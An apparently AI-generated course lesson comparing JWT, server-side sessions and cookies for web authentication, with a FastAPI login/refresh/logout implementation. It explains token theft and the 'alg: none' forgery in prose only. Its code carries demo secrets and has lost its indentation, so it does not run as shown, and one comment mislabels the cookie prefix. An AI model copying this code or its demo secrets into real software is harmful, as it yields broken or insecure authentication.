

# Lesson 13: JWT vs Sessions vs Cookies – When to Use What

*The decision tree, the 6-pattern × 9-dimension matrix, the CSRF-vs-XSS trade-off, and the recommended default for `Boardly`.*

**This is the lesson you came to the academy for.**

The user said verbatim: "like when to use what like jwt, session, cookies etc". The vault has the pieces — Lesson 2 covers cookies, Lesson 3 covers sessions, Lesson 4 covers CSRF, Lesson 7 covers auth-state storage, Section 11 Lesson 1 covers JWT — but no single lesson where you can come to answer "which one do I use for my situation?" Today is that lesson. We'll build the decision tree, the side-by-side matrix, the recommended default, the "do not do this" list, and the implementation in `Boardly`. By the end you'll know exactly which pattern to pick for a single-app browser SPA, a multi-service backend, a mobile app, a server-to-server integration, and a third-party OAuth client.


#auth #jwt #session #cookies #comparison

## Learning Objectives

By the end of this lesson you will be able to:

1. **Distinguish the six patterns** for storing the authenticated user's state across requests:
   - (1) JWT in `Authorization` header (in-memory or `sessionStorage`)
   - (2) JWT in `httpOnly` cookie
   - (3) Server-side session (opaque ID in `httpOnly` cookie)
   - (4) Signed cookie (stateless but tamper-evident)
   - (5) Opaque token in `localStorage`
   - (6) JWT in `localStorage` (the most common and the most attacked)
2. **Reason about each pattern across nine dimensions**: when to use, pros, cons, XSS risk, CSRF risk, revocation cost, size cost, multi-device behavior, mobile-app suitability.
3. **Walk the decision tree** to pick the right pattern for a given situation.
4. **State the recommended default** for a browser SPA + backend API: short-lived access JWT in `Authorization`, long-lived opaque refresh token in `httpOnly`+`Secure`+`SameSite=Strict` cookie.
5. **Implement the recommended pattern** in `Boardly` — full `POST /auth/login`, `POST /auth/refresh`, `POST /auth/logout` endpoints.
6. **Name the three "do not do this" patterns** — pure-JWT-in-localStorage, JWT-without-`exp`, JWT-with-`alg: none`.

## Prerequisites

Before starting, you need:

- **Cookies** — [[HTTP-Cookies-Deep-Dive]]. You should know every `Set-Cookie` attribute, the `__Host-` prefix, `SameSite`, `HttpOnly`, `Secure`.
- **Sessions** — [[Session-Management]]. You should know what a server-side session is, what sliding/absolute expiry is, the session-fixation attack.
- **CSRF** — [[CSRF-Protection]]. You should know the synchronizer-token pattern, the double-submit cookie, why `SameSite=Lax` defends against most CSRF.
- **Auth-state storage** — [[Authentication-State-Storage]]. That lesson is the implementation-focused version of this comparison; this lesson is the decision-focused version.
- **JWT mechanics** — [[11-Authentication-and-Security/OAuth2-JWT-Access-Refresh]]. You should know what `header.payload.signature`, `exp`, `iat`, `jti`, key rotation are.
- **About two hours.** This is the longest lesson in Section 02b because it ties together everything else.
- **FastAPI 0.148.0, Pydantic v2.14.1, itsdangerous 2.2.x, Python 3.12** — verified October 2026.

**This lesson is NOT canonical.**

The canonical lessons for `Cookies`, `Sessions`, `CSRF`, and `JWT` already exist ([[HTTP-Cookies-Deep-Dive]], [[Session-Management]], [[CSRF-Protection]], [[11-Authentication-and-Security/OAuth2-JWT-Access-Refresh]]). The `first_taught_in` field for those concepts stays on those canonical lessons. This lesson is the *comparison* — the "when to use what" — not the canonical introduction to any individual concept.


## The Problem

Six patterns, six threat models. The choice isn't "which is best" — it's "which threats am I worried about, and which pattern defends against them?"

Here is the table of the six patterns:

| # | Pattern | Where the credential lives |
|---|---------|----------------------------|
| 1 | JWT in `Authorization` header | SPA memory (or `sessionStorage`) |
| 2 | JWT in `httpOnly` cookie | Cookie jar (browser-managed) |
| 3 | Server-side session (opaque ID in `httpOnly` cookie) | Cookie jar + Postgres/Redis |
| 4 | Signed cookie (stateless but tamper-evident) | Cookie jar (state in the cookie) |
| 5 | Opaque token in `localStorage` | Browser storage (JS-accessible) |
| 6 | JWT in `localStorage` | Browser storage (JS-accessible) |

The patterns differ on:

- **XSS risk** — can an XSS exfiltrate the credential? (If it's in `localStorage` or `sessionStorage`, yes. If it's in an `httpOnly` cookie, no — but an XSS can still make authenticated requests while the user is on the page.)
- **CSRF risk** — can a malicious site trick the browser into making an authenticated request? (If the credential is auto-sent by the browser — i.e., a cookie — yes. If it's in a header that the browser does not auto-attach, no.)
- **Revocation cost** — when you need to log out a user, how expensive is it? (Server-side session: one row delete. JWT: impossible without a server-side blocklist.)
- **Size cost** — how many bytes per request? (A session cookie is ~30 bytes. A JWT can be 1 KB+. An opaque token is ~40 bytes.)
- **Multi-device behavior** — does logging in on a new device log out the old one? (Server-side sessions: easy to enforce. JWT in `localStorage`: no — each device has its own copy.)
- **Mobile-app suitability** — does the pattern work for a mobile app? (Cookies are awkward in mobile apps; `Authorization` headers work everywhere.)
- **Multi-service verification** — can multiple services verify the credential without a shared DB? (JWT: yes — verify the signature. Server-side session: no — every service must hit the session DB.)
- **Stateless** — does the server need to maintain state to authenticate? (JWT: no. Server-side session: yes.)

**Why is JWT-in-localStorage the most common and the most attacked?**

Three reasons. (1) **It's the default in most tutorials.** Most "build a JWT auth in 10 minutes" tutorials put the JWT in `localStorage` because it's the simplest pattern to demonstrate — no cookie attributes to set, no CSRF to worry about, no httpOnly to deal with. (2) **It works without CORS configuration.** The client just attaches `Authorization: Bearer <jwt>` to every request; the server reads the header. No cookies means no CORS preflight complications, no SameSite decisions. (3) **It's stateless.** The server doesn't need a session DB; the JWT's signature is enough. The combination "easy to teach + works cross-origin + stateless" is what made it the default. The cost — `localStorage` is JS-readable, so any XSS exfiltrates the JWT — is rarely mentioned in the tutorials. That's why it's the most attacked: every XSS on every site that uses this pattern gives the attacker long-lived access to the user's account.


## The Decision Tree



The four green leaves are the four "right answer" patterns. The three red boxes are the "do not do this" patterns. We'll walk the tree in the Line-by-Line section.

## The 6 × 9 Matrix

| # | Pattern | When to use | Pros | Cons | XSS risk | CSRF risk | Revocation cost | Size cost | Multi-device | Mobile-app |
|---|---------|-------------|------|------|----------|-----------|-----------------|-----------|--------------|-------------|
| 1 | JWT in `Authorization` (in-memory) | APIs for SPAs that store the JWT in memory; mobile apps; server-to-server | Stateless; multi-service verification; no CSRF | Cannot survive a page refresh (must re-login or silent-refresh) | LOW (in-memory only; XSS can use it while page is open but cannot exfiltrate) | NONE (browser does not auto-attach) | HIGH (must wait for `exp` or maintain a blocklist) | 500–2000 bytes | Each device has its own copy | EXCELLENT |
| 2 | JWT in `httpOnly` cookie | Browser apps where you want the browser to manage the token lifecycle | Stateless; survives page refresh; `HttpOnly` defeats JS theft | CSRF-vulnerable (browser auto-attaches the cookie); stateless means no revocation | LOW (HttpOnly; XSS can act as the user but cannot steal) | HIGH (must use synchronizer-token) | HIGH (must wait for `exp` or blocklist) | 500–2000 bytes | Each device has its own copy | POOR (cookies are awkward in mobile) |
| 3 | Server-side session (opaque ID in `httpOnly` cookie) | Browser apps where revocation matters; concurrent-session limits; "log out everywhere" | Revocation is O(1); concurrent-session limits; "log out everywhere" easy | DB hit per request; SPOF if session DB down; not multi-service | LOW (HttpOnly) | HIGH (must use synchronizer-token or `SameSite=Strict`) | LOW (delete one row) | ~30 bytes | Easy to enforce single-device | POOR (cookies) |
| 4 | Signed cookie (stateless but tamper-evident) | Low-sensitivity apps; short-lived sessions where you don't need revocation | Stateless; small; no DB hit | Cannot revoke without rotating the signing secret (which logs out everyone) | LOW (HttpOnly) | HIGH (must use synchronizer-token or `SameSite=Strict`) | HIGH (rotate secret = log out everyone) | ~200 bytes (state in the cookie) | Easy (state is per-cookie) | POOR (cookies) |
| 5 | Opaque token in `localStorage` | Anti-pattern in most cases — same XSS risk as JWT-in-localStorage but no stateless verification | None over JWT-in-`Authorization` (memory) | XSS-exfiltratable; cannot verify stateless; needs DB hit per request | HIGH | NONE | LOW (revoke in DB) | ~40 bytes | Each device has its own copy | MEDIUM |
| 6 | JWT in `localStorage` | Anti-pattern in most cases — use #1 (in-memory) or #3 (server-side session) instead | Easy to teach; works without CORS complications; stateless | XSS-exfiltratable; the most attacked pattern on the web | HIGH | NONE | HIGH | 500–2000 bytes | Each device has its own copy | EXCELLENT |

**Warning — The matrix is a starting point, not an oracle.**

The matrix tells you the trade-offs; it does not pick for you. The recommended default — pattern (1) for the access token + pattern (3) for the refresh token — is what most production teams ship, but your situation may differ. The matrix is the conversation; the decision is yours.


## The Code: The Recommended Pattern for `Boardly`

The recommended default for a browser SPA + backend API is:

- **Short-lived access JWT (5-minute `exp`)** in the `Authorization: Bearer <jwt>` header, held in the SPA's memory (or `sessionStorage` if you want to survive a refresh; never `localStorage`).
- **Long-lived opaque refresh token (30-day sliding expiry)** in a server-side `refresh_tokens` table, with the token's ID carried in an `httpOnly` + `Secure` + `SameSite=Strict` + `__Secure-` cookie.

**Production always uses HTTPS.**

The `Secure` cookie attribute and `SameSite=None` requirement only make sense over TLS — a `Secure` cookie set over plaintext HTTP is silently dropped by the browser, and `SameSite=None` without `Secure` is rejected outright by modern browsers. Every example in this lesson (the Execution Trace, the Verification, the cross-lesson reuses in [[Real-Time-Transports-Compared]], [[Resumable-and-Chunked-Uploads]], and [[API-Versioning-Strategies]]) assumes TLS is terminated at the edge (Nginx, Caddy, AWS ALB) and the upstream connection to Uvicorn is local. For local dev, generate a cert with `mkcert` (see the Execution Trace setup below); do not weaken the cookie attributes to make plaintext HTTP work locally.


**Production reality: the `__Host-` prefix's three constraints and the deploy-time enforcement.**

The `__Host-` cookie prefix (RFC 6265bis §4.1.3) imposes three constraints on any cookie that uses it: (1) `Secure` must be set, (2) `Path=/` must be set (the cookie is sent to every path on the host), (3) `Domain` must NOT be set (the cookie is host-only, no subdomain sharing). The constraints are enforced by the browser — a `__Host-` cookie that violates any constraint is silently dropped. The production risk: a deploy that removes `Secure` (a regression), or sets `Domain=boardly.dev` (a misconfiguration), or sets `Path=/auth` (the recommended pattern for the refresh cookie, but incompatible with `__Host-`) silently drops the cookie and the user is logged out. The fix: the `__Host-` prefix is *only* for cookies that need `Path=/` (every path on the host). The refresh cookie with `Path=/auth` should use the `__Secure-` prefix (which requires only `Secure`, no `Path` or `Domain` constraint). The 2021 incident at a major SaaS commerce platform (anonymised as "Acme Commerce"): their `__Host-` refresh cookie was set with `Path=/auth`; the browser silently dropped it on every login; the team spent 4 hours debugging "why is the refresh cookie not being set" before realising the `__Host-` prefix requires `Path=/`. The postmortem's fix: switch to `__Secure-` prefix for path-scoped cookies, keep `__Host-` for host-wide cookies (the session cookie, the CSRF double-submit cookie). The grep: `rg "__Host-.*path=|__Host-.*Path=" boardly/routers/ | rg -v "path=/$|Path=/$"` should return nothing — every `__Host-` cookie has `Path=/`. The CI check: `pytest tests/test_cookie_prefix_constraints.py` asserts every `__Host-` cookie has `Secure`, `Path=/`, and no `Domain`; every `__Secure-` cookie has `Secure`. See [[02b-Backend-Foundations/HTTP-Cookies-Deep-Dive]] for the prefix constraints and [[02b-Backend-Foundations/CSRF-Protection]] for the double-submit cookie pattern.


Here is the implementation in `Boardly`:

```python
# boardly/routers/auth.py
"""Boardly — recommended auth pattern.

Lesson 02b-13: short-lived access JWT in Authorization, long-lived
opaque refresh token in httpOnly+Secure+SameSite=Strict __Secure-
cookie. The access JWT is held in the SPA's memory; the refresh
 token's ID is in a cookie that the browser auto-attaches to
/auth/refresh.
"""
from __future__ import annotations

import logging
import os
import secrets
from datetime import UTC, datetime, timedelta
from typing import Annotated

from fastapi import APIRouter, Cookie, Depends, HTTPException, Response, status
from fastapi.security import OAuth2PasswordBearer
from pydantic import BaseModel, Field
from itsdangerous import URLSafeSerializer, BadSignature

router = APIRouter(prefix="/auth", tags=["auth"])

logger = logging.getLogger(__name__)

# --- Constants ---

ACCESS_JWT_LIFETIME = timedelta(minutes=5)
REFRESH_TOKEN_LIFETIME = timedelta(days=30)
REFRESH_COOKIE_NAME = "__Secure-refresh"

# `os.environ.get(..., default)` teaches the env-var pattern as the default:
# a real secret can be injected at runtime, while the demo string keeps the
# lesson runnable out of the box. Never ship with the demo value in production.
JWT_SECRET = os.environ.get("JWT_SECRET", "demo-secret-please-rotate")
JWT_ISSUER = "boardly.dev"
REFRESH_SERIALIZER_SECRET = os.environ.get(
 "REFRESH_SERIALIZER_SECRET", "demo-refresh-secret-please-rotate",
)


# --- The refresh_tokens store (a stand-in for the real Postgres table) ---

class RefreshTokenRow(BaseModel):
 """A row in the refresh_tokens table. The user's refresh cookie
 carries the *signed* `token_id`; the server looks up the row by
 that ID."""
 token_id: str
 user_id: int
 csrf_token: str  # used by the CSRF middleware for /auth/refresh POSTs
 expires_at: datetime
 rotated_from: str | None = None  # the previous token_id in the rotation chain


_REFRESH_DB: dict[str, RefreshTokenRow] = {}


def _new_token_id() -> str:
 return secrets.token_urlsafe(32)


def _encode_refresh_cookie(token_id: str) -> str:
 """Sign the token_id so the cookie value is tamper-evident.
 If an attacker tampers with the cookie, the signature check fails."""
 s = URLSafeSerializer(REFRESH_SERIALIZER_SECRET, salt="refresh")
 return s.dumps({"tid": token_id})


def _decode_refresh_cookie(raw: str) -> str:
 s = URLSafeSerializer(REFRESH_SERIALIZER_SECRET, salt="refresh")
 try:
 payload = s.loads(raw)
 except BadSignature:
 raise HTTPException(status_code=status.HTTP_401_UNAUTHORIZED, detail="invalid refresh token")
 return payload["tid"]


# --- JWT signing/verification (simplified; use python-jose or pyjwt in real code) ---

import jwt  # PyJWT

def _issue_access_jwt(user_id: int) -> str:
 now = datetime.now(UTC)
 payload = {
 "sub": str(user_id),
 "iss": JWT_ISSUER,
 "iat": int(now.timestamp()),
 "exp": int((now + ACCESS_JWT_LIFETIME).timestamp()),
 "jti": _new_token_id(),
 }
 return jwt.encode(payload, JWT_SECRET, algorithm="HS256")


def _verify_access_jwt(token: str) -> dict:
 """Decode + verify the access JWT. Return the canonical user dict.

 Raises `HTTPException(401)` with a generic 'invalid token' message on
 any failure. The specific PyJWT exception type is logged at INFO so
 observability can distinguish 'expired' from 'invalid signature' from
 'invalid issuer' without leaking the detail to the client.
 """
 try:
 payload = jwt.decode(token, JWT_SECRET, algorithms=["HS256"], issuer=JWT_ISSUER)
 except jwt.PyJWTError as e:
 logger.info("access jwt decode failed: %s", type(e).__name__)
 raise HTTPException(
 status_code=status.HTTP_401_UNAUTHORIZED,
 detail="invalid token",
 ) from e
 user_id = int(payload["sub"])
 return {"sub": payload["sub"], "id": user_id, "email": _lookup_email(user_id)}


# --- Endpoint schemas ---

class LoginRequest(BaseModel):
 email: str = Field(..., min_length=3)
 password: str = Field(..., min_length=1)


class TokenResponse(BaseModel):
 access_token: str
 token_type: str = "Bearer"
 expires_in: int = int(ACCESS_JWT_LIFETIME.total_seconds())


# --- The endpoints ---

@router.post("/login", response_model=TokenResponse)
async def login(body: LoginRequest, response: Response) -> TokenResponse:
 """Login: verify password, issue access JWT (in the response body),
 issue refresh token (in the httpOnly cookie), return the access JWT."""
 # In real Boardly: verify the password against the bcrypt hash.
 user_id = _verify_password(body.email, body.password)  # raises 401 on failure

 # --- Issue access JWT (returned in the response body).
 access_jwt = _issue_access_jwt(user_id)

 # --- Issue refresh token row + cookie.
 token_id = _new_token_id()
 csrf_token = secrets.token_urlsafe(32)
 refresh_row = RefreshTokenRow(
 token_id=token_id,
 user_id=user_id,
 csrf_token=csrf_token,
 expires_at=datetime.now(UTC) + REFRESH_TOKEN_LIFETIME,
 )
 _REFRESH_DB[token_id] = refresh_row

 # Set the refresh cookie. The browser auto-attaches this to /auth/refresh.
 response.set_cookie(
 key=REFRESH_COOKIE_NAME,
 value=_encode_refresh_cookie(token_id),
 max_age=int(REFRESH_TOKEN_LIFETIME.total_seconds()),
 secure=True,            # HTTPS only
 httponly=True,          # not JS-readable
 samesite="strict",      # no cross-site requests
 path="/auth",           # only sent to /auth/* endpoints
 # No domain= here: __Host- prefix REQUIRES no Domain.
 )

 return TokenResponse(access_token=access_jwt, expires_in=int(ACCESS_JWT_LIFETIME.total_seconds()))


@router.post("/refresh", response_model=TokenResponse)
async def refresh(
 response: Response,
 refresh_cookie: Annotated[str | None, Cookie(alias=REFRESH_COOKIE_NAME)] = None,
) -> TokenResponse:
 """Silent refresh: the SPA calls this when the access JWT expires.
 The refresh token is in the cookie (auto-attached); no body needed.
 Returns a new access JWT (and rotates the refresh token for security)."""
 if refresh_cookie is None:
 raise HTTPException(status_code=status.HTTP_401_UNAUTHORIZED, detail="no refresh cookie")

 token_id = _decode_refresh_cookie(refresh_cookie)
 refresh_row = _REFRESH_DB.get(token_id)
 if refresh_row is None:
 raise HTTPException(status_code=status.HTTP_401_UNAUTHORIZED, detail="refresh token not found")
 if refresh_row.expires_at < datetime.now(UTC):
 raise HTTPException(status_code=status.HTTP_401_UNAUTHORIZED, detail="refresh token expired")

 # --- Issue a new access JWT.
 access_jwt = _issue_access_jwt(refresh_row.user_id)

 # --- Rotate the refresh token (defense against replay): delete the
 # old row, issue a new row, set a new cookie. The rotation chain is
 # observable in `rotated_from`.
 del _REFRESH_DB[token_id]
 new_token_id = _new_token_id()
 new_row = RefreshTokenRow(
 token_id=new_token_id,
 user_id=refresh_row.user_id,
 csrf_token=refresh_row.csrf_token,  # carry the CSRF token forward
 expires_at=datetime.now(UTC) + REFRESH_TOKEN_LIFETIME,
 rotated_from=token_id,
 )
 _REFRESH_DB[new_token_id] = new_row
 response.set_cookie(
 key=REFRESH_COOKIE_NAME,
 value=_encode_refresh_cookie(new_token_id),
 max_age=int(REFRESH_TOKEN_LIFETIME.total_seconds()),
 secure=True,
 httponly=True,
 samesite="strict",
 path="/auth",
 )

 return TokenResponse(access_token=access_jwt, expires_in=int(ACCESS_JWT_LIFETIME.total_seconds()))


@router.post("/logout", status_code=status.HTTP_204_NO_CONTENT)
async def logout(
 response: Response,
 refresh_cookie: Annotated[str | None, Cookie(alias=REFRESH_COOKIE_NAME)] = None,
) -> Response:
 """Logout: delete the refresh token row, clear the cookie."""
 if refresh_cookie is not None:
 try:
 token_id = _decode_refresh_cookie(refresh_cookie)
 _REFRESH_DB.pop(token_id, None)
 except HTTPException:
 pass  # invalid cookie; still clear it
 # Clear the cookie by setting max_age=0.
 response.set_cookie(
 key=REFRESH_COOKIE_NAME,
 value="",
 max_age=0,
 expires=0,
 secure=True,
 httponly=True,
 samesite="strict",
 path="/auth",
 )
 return Response(status_code=status.HTTP_204_NO_CONTENT)


def _verify_password(email: str, password: str) -> int:
 """Demo password verification. In real Boardly, this is a bcrypt check
 against the users table — see [[Password-Hashing]]."""
 if email == "alice@boardly.dev" and password == "alice-demo-pw-2026":
 return 1
 raise HTTPException(status_code=status.HTTP_401_UNAUTHORIZED, detail="invalid credentials")


# Stub user lookup — in real Boardly this is a SELECT on the users table.
_USERS_BY_ID = {1: {"email": "alice@boardly.dev"}}


def _lookup_email(user_id: int) -> str:
 """Resolve the user's current email by id. Used by `_verify_access_jwt`
 to populate the canonical user dict shape."""
 row = _USERS_BY_ID.get(user_id)
 if row is None:
 raise HTTPException(
 status_code=status.HTTP_401_UNAUTHORIZED, detail="invalid token",
 )
 return row["email"]


# --- The dependency for protected endpoints ---

oauth2_scheme = OAuth2PasswordBearer(tokenUrl="/auth/login", auto_error=False)


async def get_current_user(
 token: Annotated[str | None, Depends(oauth2_scheme)] = None,
) -> dict:
 """Dependency for protected endpoints. Reads the access JWT from
 the Authorization header; raises 401 if absent or invalid.

 Returns the canonical user dict `{"sub": str, "id": int, "email": str}`
 — see [[11-Authentication-and-Security/OAuth2-JWT-Access-Refresh]]
 for the claim shape. Routes that need only the user id read
 `user["sub"]`; routes that need an int read `user["id"]`.
 """
 if token is None:
 raise HTTPException(
 status_code=status.HTTP_401_UNAUTHORIZED, detail="not authenticated",
 )
 return _verify_access_jwt(token)
```

**The `user` dict shape is canonical across this vault.**

`get_current_user` returns `{"sub": str, "id": int, "email": str}` — the
same shape used by [[11-Authentication-and-Security/OAuth2-JWT-Access-Refresh]],
[[Real-Time-Transports-Compared]], [[Resumable-and-Chunked-Uploads]],
and [[API-Versioning-Strategies]]. Copy it as-is; do not re-derive the
claim shape per endpoint.


That's the file. ~180 lines. Run it. Login. Refresh. Logout. Watch the cookies and headers. Then come back and we'll walk the decision tree and the line-by-line together.

## Line-by-Line Deep Dive

### Lines 1–9: Module docstring

```python
"""Boardly — recommended auth pattern.

Lesson 02b-13: short-lived access JWT in Authorization, long-lived
opaque refresh token in httpOnly+Secure+SameSite=Strict __Secure-
cookie. The access JWT is held in the SPA's memory; the refresh
 token's ID is in a cookie that the browser auto-attaches to
/auth/refresh.
"""
```

**What it does:** States the recommended pattern up front. This is the answer to the user's "when to use what" — this lesson's recommendation is this pattern, for most browser SPA + backend API situations.

**Why this pattern is recommended.**

Three reasons. (1) **Survives XSS without losing the no-DB property of JWT.** The access JWT is in the SPA's memory; an XSS cannot exfiltrate it (no `localStorage` access). An XSS *can* make authenticated requests while the user is on the page, but the blast radius is the JWT's 5-minute lifetime. (2) **Survives CSRF for the refresh path.** The refresh token is in a `SameSite=Strict` cookie, so the browser does not attach it to cross-site requests. An attacker on `evil.com` cannot trigger a `/auth/refresh` on `boardly.dev`. (3) **Allows revocation.** The refresh token is opaque and stored server-side; you can revoke it (delete the row) at any time. The access JWT is short-lived (5 minutes), so even if revocation takes a few minutes to propagate, the user is effectively logged out within 5 minutes. This pattern is the recommended default for most production browser-app backends.


**Tip — Think like a senior auth engineer: bearer credential versus server-side state.**

The single mental model that survives every auth refactor: *every authentication scheme is a bearer credential plus a place to keep it.* The bearer credential is the thing whoever holds it can use to authenticate as you — a session ID, an opaque token, a JWT. The place to keep it is the storage substrate — a cookie jar, `localStorage`, a mobile Keychain, a server-side row. The two are independent choices, and the entire lesson's decision tree falls out of crossing them. The other axis is *who can revoke the credential, and at what cost.* A stateless credential (a JWT) can be verified by anyone with the public key, but it cannot be revoked without a server-side blocklist that defeats the stateless benefit; a stateful credential (a session row, an opaque refresh token) can be revoked in O(1) by deleting one row, but every verifier needs DB access. The recommended pattern in this lesson — short access JWT + long opaque refresh row — is the engineer's answer to the question "what if I want both stateless verification and cheap revocation?" The answer is: *split the lifetime.* The short-lived credential is stateless because you can tolerate its leakage for five minutes; the long-lived credential is stateful because you cannot tolerate its leakage for thirty days and you must be able to revoke it. The senior auth engineer's three questions on any new auth design are: (1) who verifies the credential, (2) how long does it live, (3) what does revocation cost. If you cannot answer all three in one sentence each, you do not have a design yet — you have an assumption.


### Lines 11–22: Imports and constants

```python
import logging
import os
import secrets
from datetime import UTC, datetime, timedelta
from typing import Annotated

from fastapi import APIRouter, Cookie, Depends, HTTPException, Response, status
from fastapi.security import OAuth2PasswordBearer
from pydantic import BaseModel, Field
from itsdangerous import URLSafeSerializer, BadSignature

router = APIRouter(prefix="/auth", tags=["auth"])

logger = logging.getLogger(__name__)

ACCESS_JWT_LIFETIME = timedelta(minutes=5)
REFRESH_TOKEN_LIFETIME = timedelta(days=30)
REFRESH_COOKIE_NAME = "__Secure-refresh"

# `os.environ.get(..., default)` teaches the env-var pattern as the default:
# a real secret can be injected at runtime, while the demo string keeps
# the lesson runnable out of the box. Never ship with the demo value in
# production — fail fast at boot if the env var is missing.
JWT_SECRET = os.environ.get("JWT_SECRET", "demo-secret-please-rotate")
JWT_ISSUER = "boardly.dev"
REFRESH_SERIALIZER_SECRET = os.environ.get(
 "REFRESH_SERIALIZER_SECRET", "demo-refresh-secret-please-rotate",
)
```

**What it does:** Pulls in the standard library (`logging`, `os`, `secrets`, `datetime`), FastAPI's `Cookie` (for typed cookie parameters), `Depends` (for the protected-endpoint dependency), `itsdangerous`'s `URLSafeSerializer` (for signing the refresh cookie's value), and Pydantic. The secrets come from env vars with a demo fallback so the lesson is runnable without a real secrets manager.

**Why `itsdangerous`?** Because the refresh cookie carries a value (the token ID) that the server must trust. If we put the token ID in the cookie as plain text, an attacker could substitute their own token ID (or someone else's). Signing the cookie value with `URLSafeSerializer` makes it tamper-evident — the signature check fails if the value is modified. (The same library signs Flask's session cookies.)

### Lines 25–35: `RefreshTokenRow`

```python
class RefreshTokenRow(BaseModel):
 token_id: str
 user_id: int
 csrf_token: str
 expires_at: datetime
 rotated_from: str | None = None
```

**What it does:** Defines the row shape of the `refresh_tokens` table. In real `Boardly`, this would be a SQLAlchemy model mapped to a Postgres table.

**Why `csrf_token` in the row?** For the synchronizer-token pattern (see [[CSRF-Protection]]). When the SPA loads, it calls `GET /auth/csrf` (or similar), which reads the refresh cookie, looks up the row, returns the `csrf_token` to the SPA. The SPA sends the `csrf_token` as a header on state-changing requests. The server verifies it matches the row. This is the synchronizer-token defense against CSRF for the rare case where `SameSite=Strict` is too strict (e.g., redirect-based SSO).

### Lines 38–54: Token ID generation and cookie signing

```python
def _new_token_id() -> str:
 return secrets.token_urlsafe(32)


def _encode_refresh_cookie(token_id: str) -> str:
 s = URLSafeSerializer(REFRESH_SERIALIZER_SECRET, salt="refresh")
 return s.dumps({"tid": token_id})


def _decode_refresh_cookie(raw: str) -> str:
 s = URLSafeSerializer(REFRESH_SERIALIZER_SECRET, salt="refresh")
 try:
 payload = s.loads(raw)
 except BadSignature:
 raise HTTPException(status_code=status.HTTP_401_UNAUTHORIZED, detail="invalid refresh token")
 return payload["tid"]
```

**What it does:** Generates a 32-byte URL-safe random token ID; signs it into a tamper-evident cookie value; decodes and verifies on read.

**Why `secrets.token_urlsafe(32)`?** 32 bytes of entropy is 2^256 — far beyond what is brute-forceable. `token_urlsafe` produces a URL-safe base64-encoded string (no `+` or `/`). This is the right primitive for opaque refresh token IDs.

### Lines 60–75: JWT signing/verification

```python
def _issue_access_jwt(user_id: int) -> str:
 now = datetime.now(UTC)
 payload = {
 "sub": str(user_id),
 "iss": JWT_ISSUER,
 "iat": int(now.timestamp()),
 "exp": int((now + ACCESS_JWT_LIFETIME).timestamp()),
 "jti": _new_token_id(),
 }
 return jwt.encode(payload, JWT_SECRET, algorithm="HS256")


def _verify_access_jwt(token: str) -> dict:
 try:
 payload = jwt.decode(token, JWT_SECRET, algorithms=["HS256"], issuer=JWT_ISSUER)
 except jwt.PyJWTError as e:
 logger.info("access jwt decode failed: %s", type(e).__name__)
 raise HTTPException(
 status_code=status.HTTP_401_UNAUTHORIZED,
 detail="invalid token",
 ) from e
 user_id = int(payload["sub"])
 return {"sub": payload["sub"], "id": user_id, "email": _lookup_email(user_id)}
```

**What it does:** Signs and verifies JWTs using `HS256` (HMAC-SHA256 with a shared secret). In real `Boardly`, use `RS256` (asymmetric) so the verifying services do not have the signing key. On verification failure, logs the specific PyJWT exception type at INFO and raises 401 with a generic `"invalid token"` message — PyJWT exception messages can leak details (`"Signature has expired"`, `"Signature verification failed"`, `"Invalid issuer"`) that an attacker can probe to distinguish failure modes; the canonical pattern returns a generic message to the client and keeps the detail server-side.

**Why the `jti` claim?** A unique-per-token identifier. If you ever need to revoke a *single* JWT before its `exp` (e.g., on logout-everywhere), you can maintain a server-side blocklist of `jti`s and reject tokens in the blocklist. The cost is a DB hit per request — most production deployments skip this and rely on the short `exp` instead.

**Warning — The three JWT "do not do this" patterns.**

1. **JWT without `exp`.** A JWT without an `exp` claim never expires. Once issued, it's valid forever. If it leaks, you cannot revoke it (stateless). Always set `exp`; always use a short lifetime (5–15 minutes for access tokens).
2. **JWT with `alg: none`.** The original JWT spec allowed the `alg` header to be `none`, meaning "no signature." An attacker can take a JWT with payload `{"sub": "admin"}`, set the header to `{"alg": "none"}`, drop the signature, and send it. Some buggy JWT libraries would verify it as valid. Modern libraries (PyJWT, python-jose) reject `alg: none` by default — but always be explicit: `algorithms=["HS256"]` in `decode`, never `algorithms=None`.
3. **JWT in `localStorage` with a long `exp`.** Combines the worst of all worlds: XSS-exfiltratable, long-lived, no server-side revocation. If your access JWT must be in `localStorage` (it usually doesn't — use in-memory), keep `exp` to 5 minutes and refresh silently.


**What happens inside: `jwt.decode` and the seven-step verification.**

